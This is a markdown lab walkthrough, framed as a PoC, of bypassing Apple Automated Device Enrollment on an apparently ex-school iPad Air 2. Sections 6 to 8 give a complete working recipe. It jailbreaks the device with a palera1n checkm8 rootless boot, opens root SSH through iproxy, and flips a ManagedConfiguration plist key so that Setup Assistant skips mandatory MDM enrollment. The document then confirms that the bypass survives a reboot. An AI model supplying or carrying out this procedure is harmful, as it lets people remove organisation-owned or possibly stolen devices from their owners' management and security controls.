



# Legacy iPad ADE/cloudconfig bypass PoC walkthrough

Date of lab run: 23 June 2026  
Device: iPad Air 2 Wi-Fi (`iPad5,3`)  
OS: iPadOS `15.8.8` (`19H422`)  
Result: bypassed; Setup Assistant completed; bypass survived normal reboot

## 1. The symptom

After a full erase/restore, the iPad entered Setup Assistant normally. Language, region, and Wi-Fi selection worked. The failure happened immediately after continuing from the Wi-Fi screen.

Flow:

1. select Wi-Fi;
2. iPad shows `Fetching Configuration`;
3. iPad fails with `Configuration could not be retrieved`;
4. the only visible option is to go back.







The visible UI did not show a useful organization name or detailed error code.

## 2. Initial hypothesis

The device history suggested an old school-managed iPad. That made Apple Automated Device Enrollment (ADE, formerly DEP) and Mobile Device Management (MDM) likely suspects.

At this point there were three main possibilities:

- a local network/DNS/TLS problem;
- a broken or unreachable MDM/cloud configuration server;
- local Setup Assistant state incorrectly forcing a cloud configuration path.

The investigation started with read-only USB diagnostics before changing anything on the device.

## 3. USB and activation checks

The iPad was detected correctly over USB and identified as:

```text
ProductType: iPad5,3
Model: iPad Air 2 Wi-Fi
Board: j81ap
Platform: A8X / t7001
iPadOS: 15.8.8
Build: 19H422
```

Lockdown status showed:

```text
ActivationState = Activated
ActivationStateAcknowledged = true
BrickState = false
PasswordProtected = false
TrustedHostAttached = true
```

That was the first key clue: Apple activation itself had already succeeded. The failure was after activation, during Setup Assistant’s configuration/enrollment phase.

## 4. MCInstall findings

Using the `com.apple.mobile.MCInstall` service:

```text
GetProfileList -> 0 installed profiles
GetCloudConfiguration -> empty / none
```

So there was no installed MDM profile to remove, and no completed cloud configuration stored locally.

A minimal `SetCloudConfiguration` test was attempted with explicit lab approval, but iOS rejected it:

```text
MCCloudConfigErrorDomain 33004
This device must be configured via the Device Enrollment Program.
```

Readback stayed empty, so that test did not persistently modify the device.

## 5. Live syslog: not a local network problem

During a fresh Setup Assistant attempt, USB syslog showed that networking was healthy:

- DNS worked;
- TCP worked;
- TLS 1.3 worked;
- server certificate verification succeeded;
- the server returned HTTP `200`.

The failure happened after that, in the cloud configuration/enrollment layer:

```text
MCCloudConfigurationErrorDomain Code=34004
The cloud configuration server is unavailable or busy.
CloudConfigurationFatalError
MCCloudConfigErrorDomain code 33001
Could not retrieve cloud configuration
```

This ruled out a normal Wi-Fi problem. The iPad was still being told locally that a cloud configuration existed, but the remote ADE/cloud configuration path was unusable.

## 6. Access path: palera1n/checkm8

Because the iPad Air 2 uses an A8X SoC, it is within palera1n/checkm8-supported hardware.

The final execution environment:

- Kali Linux Live `2026.1`, amd64;
- official palera1n Linux x86_64 binary;
- rootless palera1n boot;
- `iproxy` for USB port forwarding.

Read-only palera1n identification:

```bash
sudo palera1n -I
```

Confirmed:

```text
Mode: normal
ProductType: iPad5,3
Architecture: arm64
Version: 15.8.8
DisplayName: iPad Air 2 (WiFi)
```

Rootless boot:

```bash
sudo palera1n -l
```

Important success markers:

```text
Device entered DFU mode successfully
Attempting to perform checkm8 on 7001 01
Checkmate!
Found PongoOS USB Device
Booting Kernel...
```

After the modified boot, Dropbear was available on iDevice port `44`.

USB tunnel:

```bash
iproxy 2222 44
```

SSH:

```bash
ssh -p 2222 root@127.0.0.1
```

The root filesystem was sealed/read-only, but `/private/var` was writable. That was ideal for a minimal preference/state change without touching the system volume.

## 7. The key local state

The relevant file was:

```text
/var/mobile/Library/Preferences/com.apple.managedconfiguration.notbackedup.plist
```

Before the bypass:

```text
HasCheckedForAutoInstalledProfiles = 1
LockdownActivationIndicatesCloudConfigurationAvailable = 1
```

The second key was the important one. It indicated that activation/lockdown believed a cloud configuration was available.

Setup Assistant was not yet completed:

```text
hasCompletedInitialSetup = false
```

## 8. Minimal payload

First, make a backup:

```sh
f=/var/mobile/Library/Preferences/com.apple.managedconfiguration.notbackedup.plist
backup=/var/mobile/Library/Preferences/com.apple.managedconfiguration.notbackedup.plist.lab-backup-20260623-ade-toggle

[ -f "$backup" ] || cp -p "$f" "$backup"
```

Then change only the local cloud configuration indicator:

```sh
plutil -key LockdownActivationIndicatesCloudConfigurationAvailable \
  -value false \
  -type bool \
  "$f"
```

Flush preference cache:

```sh
killall cfprefsd 2>/dev/null || true
sync || true
```

Readback:

```sh
plutil -show "$f"
```

Expected result:

```text
{
    HasCheckedForAutoInstalledProfiles = 1;
    LockdownActivationIndicatesCloudConfigurationAvailable = 0;
}
```

After going back/forward once in Setup Assistant, the iPad continued through the normal setup flow.

## 9. Post-bypass verification

After setup completed:

```text
SetupDone = 1
SetupFinishedAllSteps = 1
SetupLastExit = "2026-06-23 16:44:19 +0000"
SetupState = SetupUsingAssistant
SetupVersion = 11
```

The ManagedConfiguration indicator remained:

```text
LockdownActivationIndicatesCloudConfigurationAvailable = 0
```

## 10. Reboot test

A normal reboot was performed after setup completion.

Result:

- iPad booted normally into the usable system;
- Setup Assistant did not return;
- the cloud configuration error did not return;
- palera1n/jailbreak state disappeared;
- the palera1n app disappeared;
- root SSH over USB was no longer available until another palera1n/checkm8 boot.

That matches palera1n’s semi-tethered model: the normal system remains usable after reboot, but jailbreak functionality does not persist.

## 11. Why this worked

The pre-bypass state was:

```text
ActivationState = Activated
GetCloudConfiguration = empty
LockdownActivationIndicatesCloudConfigurationAvailable = true
```

Setup Assistant interpreted that as: activation is complete, but there is still a mandatory cloud configuration to retrieve.

Because the server-side ADE/cloud configuration path failed, the device could not move forward.

Changing the local indicator to `false` made Setup Assistant stop treating the broken cloud configuration path as a blocking step. The rest of the setup flow then completed normally.

## 12. Limitations

This does not:

- remove the device from Apple School Manager or Apple Business Manager;
- fix the remote MDM/cloud configuration service;
- remove an installed MDM profile;
- guarantee that a future erase/restore will remain bypassed;
- make palera1n persistent across reboots.

This does:

- bypass the local Setup Assistant cloud configuration loop;
- avoid system volume patches;
- avoid deleting Setup.app;
- use a single backed-up preference change under `/var/mobile`.

For rollback and repeatability notes, see [docs/rollback.md](docs/rollback.md).
